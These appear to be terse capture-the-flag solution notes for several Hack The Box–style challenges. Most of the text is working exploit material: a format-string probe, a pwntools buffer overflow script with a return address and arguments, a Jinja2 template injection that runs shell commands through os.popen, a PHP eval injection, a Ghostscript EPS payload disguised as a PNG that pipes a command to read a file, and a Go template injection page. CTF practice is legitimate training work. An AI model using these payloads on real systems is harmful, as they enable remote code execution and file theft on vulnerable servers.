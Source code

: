 # Racecar
###### Format String Injection

Input: %p %p %p %p 
Transform hex into ascii: reversarAscii.py

# You Know 0xDiablos
###### Buffer Overflow
## Padding (188) + FlagFunction + Padding (4) + Argument1 + Argument2 

File:
from pwn import *

flag = 0x080491e2
parm1 = 0xdeadbeef
parm2 = 0xc0ded00d

host = input("HOST: ")
host = host.split(':')

payload = b'a'*188 + p32(flag) + b'a'*4 + p32(parm1) + p32(parm2)

p = remote(host[0], int(host[1]))
p.sendline(payload)
p.interactive()

# Behind the Scenes
###### Sensitive info in Source Code
Search Strings.

# Golfer - Part 1
Change JMP to the next instruction instead of to the function FUN_XXXXXX using Patch Instruction and exporting it into a new file.

# Bypass
###### Functionality Bypass
Using dnSpy (x32). Add breakpoints at each if, changing the variables to true and another breakpoint at the end to see the flag.

# Template
###### Code Injection
## /{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}

# LoveTok
###### Eval Injection 
## ${print(`cd ..; cat flag*`)}

# PetPet RCBee
###### RCE - Remote Code Execution

Create a file without extension:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100


userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag >> /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
```
Change it into a png. Upload it and go to: 
HOST:PORT/static/petpets/flag.txt

# RenderQuest
###### Server-Side Template Injection in GO

Create a GitHub Page with the file index.html containg:
```
<html>
<head>
    <title>Document</title>
</head>
<body>
    <p>Client IP: {{.ClientIP}}</p>
    <p>User Agent: {{.ClientUA}}</p>
    <h1>HTB RenderQuest</h1>
    <p><b>Show dir:</b> {{.FetchServerInfo "ls /"}}</p>
    <p><b>Flag content:</b> {{.FetchServerInfo "cat /flag*.txt"}}</p>
</body>
</html>
```

Enter the page link as: https//[username].github.io